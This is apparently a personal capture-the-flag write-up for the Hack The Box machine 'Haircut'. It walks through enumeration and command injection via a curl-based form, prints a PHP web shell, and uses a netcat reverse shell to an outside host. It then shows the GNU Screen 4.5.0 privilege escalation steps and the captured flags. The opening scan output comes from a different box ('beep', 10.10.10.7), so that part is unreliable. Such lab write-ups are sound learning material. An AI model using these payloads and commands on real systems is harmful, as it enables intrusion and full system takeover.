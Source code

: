 # Scan

```bash
ghost@localhost [16:32:47] [~/Documents/hacking/tj-null-boxes/beep] [master]
-> % rustscan -a $IP -- -sC -sV

Open 10.10.10.7:22
Open 10.10.10.7:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e975c1e4b3633c93f2c618083648ce36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo4pezhJs9c3u8vPWIL9eW4qxQOrHCslAdMftg/p1HDLCKc+9otg+MmQMlxF7jzEu8vJ0GPfg5ONRxlsfx1mwmAXmKLh9GK4WD2pFbg4iFiAO/BAUjs3dNdR1S9wR6F+yRc2jgIyKFJO3JohZZFnM6BrTkZO7+IkSF6b3z2qzaWorHZW04XHdbxKjVCHpU5ewWQ5B32ScKRJE8bsi04Z2lE5vk1NWK15gOqmuyEBK8fcQpD1zCI6bPc5qZlwrRv4r4krCb1h8zYtAwVnoZdtYVopfACgWHxqe+/8YqS8qo4nPfEXq8LkUc2VWmFztWMCBuwVFvW8Pf34VDD4dEiIwz
|   256 8700aba98f6f4bbafbc67a55a860b268 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLrPH0YEefX9y/Kyg9prbVSPe3U7fH06/909UK8mAIm3eb6PWCCwXYC7xZcow1ILYvxF1GTaXYTHeDF6VqX0dzc=
|   256 b61b5ca9265cdc61b775906c88516e54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA+vUE7P+f2aiWmwJRuLE2qsDHrzJUzJLleMvKmIHoKM
80/tcp open  http    syn-ack nginx 1.10.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title:  HTB Hairdresser
|_http-server-header: nginx/1.10.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# 80

```bash
ghost@localhost [16:39:03] [~/Documents/hacking/tj-null-boxes/haircut] [master]
-> % feroxbuster -u http://10.10.10.24:80 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k

200      GET        7l       15w      144c http://10.10.10.24/
301      GET        7l       13w      194c http://10.10.10.24/uploads => http://10.10.10.24/uploads/
403      GET        7l       11w      178c http://10.10.10.24/uploads/
```

I downloaded the image and check if it is stenography and it is not.

Nothing interesting there, I checked `/index.html` and it returns the homepage. This time,  I try with `medium` word list. This time I found `exposed.php`.

```bash
ghost@localhost [16:46:20] [~/Documents/hacking/tj-null-boxes/haircut] [master *]
-> % feroxbuster -u http://10.10.10.24:80 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -k -x php

200      GET        7l       15w      144c http://10.10.10.24/
301      GET        7l       13w      194c http://10.10.10.24/uploads => http://10.10.10.24/uploads/
403      GET        7l       11w      178c http://10.10.10.24/uploads/
200      GET       19l       41w        0c http://10.10.10.24/exposed.php
```

It is an input form, and if I enter my IP address, the target machine will access my Python server. Also my entering an invalid host name, I can see the error message and it shows that it is using curl.

```bash
% Total % Received % Xferd Average Speed Time Time Time Current Dload Upload Total Spent Left Speed 0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:01 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:02 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:03 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:04 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:05 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:06 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:07 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:08 --:--:-- 0 0 0 0 0 0 0 0 0 --:--:-- 0:00:09 --:--:-- 0curl: (6) Could not resolve host: somewhere
```

I tried `;` and `|`, they both failed. Seems to be filtering. However, `$` is not failing. Therefore, I can use that to inject a malicious command in between together with `-o` command from curl.

So I hosted a PHP payload script on local, and download it under `/var/www/html/uploads`.

```bash
10.10.14.8/payload.php%20-o%20/var/www/html/uploads/payload.php
```

This is the PHP payload.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Then with the following script, I can get back the reverse shell.

```bash
nc -nv 10.10.14.8 4444 -e /bin/bash


ghost@localhost [17:21:29] [~/Documents/hacking/tj-null-boxes/haircut] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.24] 45854
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# Privilege escalation

Nothing interesting with Linpeas, so I manually check SUID permissions.

```bash
www-data@haircut:/dev/shm$ find / -perm -4000 2>/dev/null | xargs ls -la
-rwsr-xr-x 1 root   root         30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root   root         40152 Dec 16  2016 /bin/mount
-rwsr-xr-x 1 root   root        142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root   root         44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root   root         44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root   root         40128 May  4  2017 /bin/su
-rwsr-xr-x 1 root   root         27608 Dec 16  2016 /bin/umount
-rwsr-sr-x 1 daemon daemon       51464 Jan 14  2016 /usr/bin/at
-rwsr-xr-x 1 root   root         49584 May  4  2017 /usr/bin/chfn
-rwsr-xr-x 1 root   root         40432 May  4  2017 /usr/bin/chsh
-rwsr-xr-x 1 root   root         75304 May  4  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root   root         32944 May  4  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root   root         39904 May  4  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root   root         32944 May  4  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root   root         54256 May  4  2017 /usr/bin/passwd
-rwsr-xr-x 1 root   root         23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root   root       1588648 May 19  2017 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root   root        136808 Jan 20  2017 /usr/bin/sudo
-rwsr-xr-- 1 root   messagebus   42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root   root         10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root   root        428240 Mar 16  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root         14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root   root        208680 Apr 29  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root         38984 Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

So I found an interesting SUID `screen-4.5.0`. From searchsploit, I can see that it is vulnerable to local privilege escalation.

```bash
ghost@localhost [18:37:37] [~/Documents/hacking/tj-null-boxes/haircut] [master *]
-> % searchsploit screen 4.5
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                           | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                     | linux/local/41152.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

But the automated scripts failed because it cannot find `cc1` on the target machine. I tried compiling on local, but also failed because my system has `Glibc` higher than the target machine.

One possible solution is by installing older glibc or compile inside the docker. But it is too much work. Instead I followed this blog post (https://ivanitlearning.wordpress.com/2020/08/25/compiling-setuid0-code/) and the solution is to find where `cc1` is installed in the target system.

First upload the exploits onto the target machine.

```bash
$ curl 10.10.14.8/libhax.c -o /tmp/libhax.c

$ curl 10.10.14.8/rootshell.c -o /tmp/rootshell.c
```

Then find `cc1`.

```bash
$ locate cc1
/etc/ssl/certs/6fcc125d.0
/lib/modules/4.4.0-77-generic/kernel/drivers/iio/adc/cc10001_adc.ko
/lib/modules/4.4.0-78-generic/kernel/drivers/iio/adc/cc10001_adc.ko
/usr/lib/gcc/x86_64-linux-gnu/5/cc1
/usr/lib/gcc/x86_64-linux-gnu/5/libcc1.so
/usr/lib/gcc/x86_64-linux-gnu/5/plugin/libcc1plugin.so
/usr/lib/gcc/x86_64-linux-gnu/5/plugin/libcc1plugin.so.0
/usr/lib/gcc/x86_64-linux-gnu/5/plugin/libcc1plugin.so.0.0.0
/usr/lib/x86_64-linux-gnu/libcc1.so.0
/usr/lib/x86_64-linux-gnu/libcc1.so.0.0.0
/usr/share/doc/libcc1-0
/usr/share/doc/libgcc1
/usr/share/doc/libisccc140
/usr/share/doc/libisccc140/changelog.Debian.gz
/usr/share/doc/libisccc140/copyright
/usr/share/lintian/overrides/libgcc1
/usr/share/terminfo/x/xterm+pcc1
/usr/src/linux-headers-4.4.0-77-generic/include/config/cc10001
/usr/src/linux-headers-4.4.0-77-generic/include/config/cc10001/adc.h
/usr/src/linux-headers-4.4.0-78-generic/include/config/cc10001
/usr/src/linux-headers-4.4.0-78-generic/include/config/cc10001/adc.h
/var/lib/dpkg/info/libcc1-0:amd64.list
/var/lib/dpkg/info/libcc1-0:amd64.md5sums
/var/lib/dpkg/info/libcc1-0:amd64.shlibs
/var/lib/dpkg/info/libcc1-0:amd64.symbols
/var/lib/dpkg/info/libcc1-0:amd64.triggers
/var/lib/dpkg/info/libgcc1:amd64.list
/var/lib/dpkg/info/libgcc1:amd64.md5sums
/var/lib/dpkg/info/libgcc1:amd64.postinst
/var/lib/dpkg/info/libgcc1:amd64.shlibs
/var/lib/dpkg/info/libgcc1:amd64.symbols
/var/lib/dpkg/info/libgcc1:amd64.triggers
/var/lib/dpkg/info/libisccc140:amd64.list
/var/lib/dpkg/info/libisccc140:amd64.md5sums
/var/lib/dpkg/info/libisccc140:amd64.shlibs
/var/lib/dpkg/info/libisccc140:amd64.triggers
/var/tmp/systemd-private-ccc1121e12414e109a058b30dc8b6713-systemd-timesyncd.service-AOmIUo
```

Once it is found, we updated the path.

```bash
$ export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5
```

Then compile both shared library and the executable.

```bash
$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c

$ gcc -o /tmp/rootshell /tmp/rootshell.c
```

After that following the script and executes

```bash
$ cd /etc

$ umask 000

$ screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"

$ screen -ls # screen itself is setuid, so...

$ /tmp/rootshell

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

# cat /home/maria/user.txt
7b1b9d3f75797a337576dbadc7ffc96e

# cat /root/root.txt
7ce42237f2cd6b9ed30e9f526693e284
```
